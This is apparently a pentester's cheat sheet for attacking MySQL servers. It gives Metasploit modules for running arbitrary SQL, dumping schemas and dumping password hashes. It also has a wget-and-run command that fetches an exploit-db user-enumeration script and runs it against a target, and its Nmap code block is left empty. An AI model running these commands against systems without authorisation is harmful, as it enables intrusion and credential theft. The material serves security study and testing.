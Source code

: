 # MySQL
MySQL is a relational database management system (RDBMS) based on Structured Query Language (SQL)

## Workflow
Provided that necessary credentials such as username and password is already found, or anonymous login is allowed.

1. Port scan with nmap
2. Enumerate useful information with several tools
3. Crack the password hash of a user
4. Access MySQL server with credentials


## Advance preparation
```
export rhost=[RHOST IP]
```

## Enumeration
### Metasploit
Execute arbitrary commands on the MySQL server
```
use auxiliary/admin/mysql/mysql_sql
```

### Nmap ([MySQL-Enum](https://nmap.org/nsedoc/scripts/mysql-enum.html))
```
```

### CVE : [2015-5615](https://www.exploit-db.com/exploits/23081)
```
wget https://www.exploit-db.com/raw/23081 -O /tmp/mysqlenum.pl
cd /tmp && perl mysqlenum.pl $rhost usernames.txt
```

To install Parallel::ForkManager:
```
sudo cpan Parallel::ForkManager
```

## Exploitation
### Metasploit
Dump the tables, and column names of the whole database
```
use auxiliary/scanner/mysql/mysql_schemadump
```

Obtain users' password hashes on the MySQL server
```
use auxiliary/scanner/mysql/mysql_hashdump
```

## Access MySQL server
```
mysql -h $rhost -u [USERNAME] -p
```

To install MySQL client:
```
sudo apt install default-mysql-client
```
